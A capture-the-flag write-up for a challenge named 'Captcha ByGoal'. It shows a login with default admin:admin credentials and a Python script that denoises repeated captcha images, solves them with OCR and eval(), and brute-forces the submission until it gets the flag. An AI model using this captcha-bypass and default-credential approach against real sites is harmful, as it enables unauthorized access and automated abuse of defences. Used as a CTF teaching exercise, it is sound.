 # Captcha ByGoal

```
Не намагайтеся зігнути ложку - це неможливо. Натомість намагайтеся лише усвідомити істину.
```

After following the [link](https://captcha-bygoal.ua30ctf.org/) we get to the login page

![Login](./images/captcha_login.png)

Of course we try _admin:admin_ credentials, otherwise we would not be hackers.

---

And we guessed it right. Now we can see the following captcha

![Captcha](./images/captcha.png)

It has a time limit, so i tried to solve it as fast as i can, but couldn't quite do it in time a bunch of times. So i looked at the captcha itself (right click -> open image in new tab) and got to _/img.php_ endpoint. If we refresh the page, the values are unchanged but the noise is. That's interesting. 

So if we can't do it by hand, i thought about automating it and wrote a python script

```python
#!/usr/bin/env python3

from PIL import Image
from io import BytesIO
import pytesseract
import requests
import re

def main():
  url = 'https://captcha-bygoal.ua30ctf.org/img.php'
  cookie = 'fd883a893fe47c11e87db162cca675c2'
  imgs = []
  # the more, better quality
  sample_size = 3
  for i in range(sample_size):
    img = Image.open(requests.get(url, stream=True, cookies={'PHPSESSID': cookie}).raw)
    imgs.append(img)

  pixels = [img.load() for img in imgs]
  width, height = imgs[0].size
  res_img = Image.new('1', (width, height))
  res_pix = res_img.load()


  for i in range(width):
    for j in range(height):
      temp = []
      for k in range(len(pixels)):
        temp.append(sum(pixels[k][i, j]))
      res_pix[i, j] = 255 if min(temp) < 300 else 0
  # Perform OCR
  text = pytesseract.image_to_string(res_img, config='--psm 6')

  expr = re.findall(r'\d+|\+|\-|\*|\/|\(|\)', text)
  result = eval(''.join(expr))
  req = requests.post(
    'https://captcha-bygoal.ua30ctf.org/index.php',
    cookies={'PHPSESSID': cookie},
    data={'login':'admin', 'password':'admin', 'captcha':result}
  )
  for line in req.content.decode().split('\n'):
    if 'expired' in line:
      main()
    elif 'ctf{' in line or 'CTF{' in line:
      print(line[6:])


if __name__ == '__main__':
  main()

```

To summarize it, we make a few requests to the _/img.php_ endpoint and get several similar pictures with different noise. 
Cookies are necessary to get the access to the endpoint as a part of authorization process. Then we convert those images from bytes to pixel values and create a new picture that will be without the noise. We loop through each pixel with RGB values and _sum_ them in order to get the unified values. 
Background is always grey and the operators with operands are always close to white (so as noise). Therefore if the minimum value (which is probably grey if its background or white if it's a character. more sample size gives better accuracy because of noise but lower speed) from sample images doesn't pass the treshhold we paint it as white, otherwise as black. then we use pytesseract to perform OCR on the image and extract the string based on the given regex, we extract the values (in case there was an error) and submit the result via post request. the last for loop is just for convenience to extract the flag from response body and if not found execute again.

---

## ctf{Everything_is_physics_and_math}



